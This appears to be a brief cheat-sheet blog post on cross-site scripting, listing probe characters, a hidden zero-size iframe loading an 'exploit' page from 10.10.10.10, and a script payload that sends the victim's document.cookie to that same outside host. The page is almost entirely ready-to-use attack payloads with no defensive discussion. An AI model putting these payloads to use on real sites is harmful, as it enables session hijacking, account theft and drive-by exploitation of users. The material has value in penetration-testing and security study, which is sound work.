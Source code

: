 ```yaml
---
layout: post
title:  "webapp - xss"
date:   2022-01-01
categories: web
---
```



### Identifying XSS Vulnerabilities

```js
< > ' " { } ;\
```

## Content Injection

```html
<iframe src=http://10.10.10.10/exploit height=”0” width=”0”></iframe>
```

### Stealing Cookies and Session Information

```js
<script>new Image().src="http://10.10.10.10/hijacked.jpg?output="+document.cookie;</script>
```
